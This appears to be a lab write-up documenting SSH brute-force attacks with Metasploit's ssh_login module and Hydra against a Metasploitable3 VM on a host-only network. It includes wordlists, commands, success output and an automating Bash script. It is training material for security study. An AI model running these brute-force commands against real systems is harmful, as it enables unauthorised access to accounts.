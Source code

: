 # Phase 1 – Setup and Compromise the Service

## Objective

Set up the attacker and victim environments, then compromise a vulnerable SSH service using two methods:

- **Phase 1.1**: Brute-force attack using Metasploit and custom wordlists
- **Phase 1.2**: Automated brute-force attack using a Bash script with Hydra

---

## Environment Setup

- **Attacker Machine**: Kali Linux

  - Hostname: `kali`
  - Host-Only IP Address: `192.168.56.104`
  - NAT IP Address: `10.0.2.15`
  - Username: `kali`

- **Victim Machine**: Metasploitable3

  - Hostname: `metasploitable3`
  - Host-Only IP Address: `192.168.56.103`
  - NAT IP Address: `10.0.2.2`
  - Username: `vagrant`
  - Password: `vagrant`

- **Targeted Service**

  - **Service**: SSH
  - **Port**: 22
  - **Vulnerability**: Default/weak credentials
  - **Goal**: Compromise SSH access via brute-force attack

---

## Phase 1.1 – SSH Brute-Force Attack Using Metasploit

### 1. Launch Metasploit Framework

We started Metasploit with:

```bash
msfconsole
```

![Metasploit Launch](image-1.jpg)

---

### 2. Select and Configure Module

We selected the SSH login module:

```bash
use auxiliary/scanner/ssh/ssh_login
```

We then configured the target:

```bash
set RHOSTS 192.168.56.103
```

![Select Module](image-1.jpg)

---

### 3. Prepare and Load Wordlists

We created two files:

**user.txt**

```
msfadmin
user
postgres
vagrant
Rana
Sarah
Password
```

**pass.txt**

```
msfadmin
123456
toor
password
vagrant
123456789
101918
```

We set these files in Metasploit:

```bash
set USER_FILE user.txt
set PASS_FILE pass.txt
set VERBOSE true
```

![Wordlists Setup](image-2.jpg)

---

### 4. Run the Attack

```bash
run
```

Metasploit attempted multiple combinations. It successfully logged in using:

- **Username**: `vagrant`
- **Password**: `vagrant`

```text
[+] 192.168.56.103:22 - Success: 'vagrant:vagrant'
```

![SSH Login Success](image-3.jpg)

---

### Summary

We successfully brute-forced the SSH credentials on Metasploitable3 using Metasploit and a dictionary attack. This confirms that the service is vulnerable due to default credentials.

---

## Phase 1.2 – Automated Hydra Attack Using Bash Script

### 1. Connectivity Test

We first verified that the attacker can reach the victim via `ping`:

```bash
ping 192.168.56.103
```

![Ping Test](image-4.png)

---

### 2. Prepare Username and Password Lists

We created the following files:

**user.txt**

```
msfadmin
user
postgres
vagrant
```

![User List](image-8.png)

**pass.txt**

```
msfadmin
123456
toor
password
vagrant
```

![Password List](image-9.png)

---

### 3. Run Hydra

Using the following command:

```bash
hydra -L user.txt -P pass.txt ssh://192.168.56.103 -t 4
```

Hydra successfully found:

- **Username**: `vagrant`
- **Password**: `vagrant`

![Hydra Success](image-11.png)

---

### 4. Bash Script Execution

We automated the attack with the following script:

**ssh_bruteforce.sh**

```bash
#!/bin/bash
# Configuration
TARGET_IP="192.168.56.103"
USERNAME="vagrant"
PASSWORD_LIST="pass.txt"

# Run Hydra
echo "[*] Starting SSH brute-force attack on $TARGET_IP..."
hydra -l "$USERNAME" -P "$PASSWORD_LIST" ssh://"$TARGET_IP" -t 4 -f -V
```

![Script Code](image-6.png)

Then ran:

```bash
chmod +x ssh_bruteforce.sh
./ssh_bruteforce.sh
```

Output confirmed success:

![Script Output](image-5.png)

---

## Conclusion

In both Phase 1.1 and 1.2, we successfully compromised the Metasploitable3 SSH service using dictionary-based brute-force attacks. The presence of weak/default credentials (`vagrant:vagrant`) made the system vulnerable. This confirms the need for further security hardening in the upcoming phases.
